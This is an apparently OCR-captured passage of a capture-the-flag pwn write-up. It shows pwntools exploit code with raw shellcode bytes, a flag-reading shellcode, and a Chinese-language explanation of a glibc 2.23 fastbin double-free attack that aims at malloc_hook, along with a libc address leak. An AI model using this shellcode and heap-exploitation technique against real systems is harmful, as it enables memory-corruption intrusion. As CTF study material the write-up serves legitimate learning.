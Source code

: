 ```bash
    pause()

#shellcode = asm('''
#    mov esp,0x404100
#    shl edi,12
#    push 0xa
#    push 7
#    x:
#    pop edx
#    pop eax
#    syscall
#    pop edi
#    push esi
#    mov esi,ecx
#    jmp x
#    ''')
#print(shellcode)

#\xbc\x00A@\x00\xc1\xe7\x0cj\nj\x07ZX\x0f\x05_V\x89\xce\xeb\xf6' 
shell = b'\xbc\x00A@\x00\xc1\xe7\x0cj\nj\x07ZX\x0f\x05_V\x89\xce\xeb\xf6'
duan()
sa('shellcode\n\n',shell)

#orw_shellcode = asm(shellcraft.cat('flag'))
orw_shellcode = b'j\x01\xfe\x0c$hflag\x89\xe31\xc9j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80'
s(orw_shellcode)
itr()
```

## old\_fastnote

### 思路

依然是无 edit，限制大小 0x80  
不过 2.23 的 fastbin 在 malloc 时会检查拿到的 chunk 的 size 是否正确，所以  
很难申请到任意地址的指针。但是这⾥没有对⻬检查，可以通过字节错位实现绕过。  
add(5,0x68,p64(malloc\_hook-0x23))#0x70 malloc\_hook-0x23  
剩下还是 double free 就行  
2.23 的无 tcache bin，好泄露 libc，直接一个 chunk1 防止合并，然后 delete chunk0 即可

```bash
add(0,0x80,'aaaaaaaa')
add(1,0x80,'aaaaaaaa')
delete(0)
show(0)
libc_base=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x3c4b78
leak('libc_base ',libc_base)
```
